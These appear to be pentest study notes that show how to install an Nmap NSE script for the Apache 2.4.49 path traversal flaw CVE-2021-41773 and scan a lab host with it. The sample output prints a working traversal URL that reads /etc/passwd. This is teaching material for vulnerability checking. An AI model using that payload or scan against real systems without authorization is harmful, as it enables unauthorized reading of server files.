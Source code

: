 Will learn to do this with the example *CVE-2021-41773*
+ In order to find a suitable NSE script, we can use a search engine to find the CVE number plus NSE (**CVE-2021-41773 nse**)
+ One of the first search results is a link to a _GitHub_ page: https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse
	+ Provides a script to check for this vulnerability
+ Can download this script and save it as `/usr/share/nmap/scripts/http-vuln-cve2021-41773.nse` to comply with the naming syntax of the other NSE scripts
	+ Before we can use the script, we'll need to update **script.db** with `--script-updatedb`, see example usage:
```
kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse

kali@kali:~$ sudo nmap --script-updatedb
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org )
NSE: Updating rule database.
NSE: Script Database updated successfully.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
```

To use the NSE script, we'll provide the name of the script, target information, and port number. We'll also enable service detection
+ Example usage: `sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124`
	+ Example output;
```
Starting Nmap 7.92 ( https://nmap.org )
Host is up (0.00069s latency).

PORT    STATE SERVICE VERSION
443/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-vuln-cve2021-41773:
|   VULNERABLE:
|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
|     State: VULNERABLE
|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
|           
|     Disclosure date: 2021-10-05
|     Check results:
|       
|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
...
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
+ The output indicates that the target is vulnerable to CVE-2021-41773 and provides us with additional background information
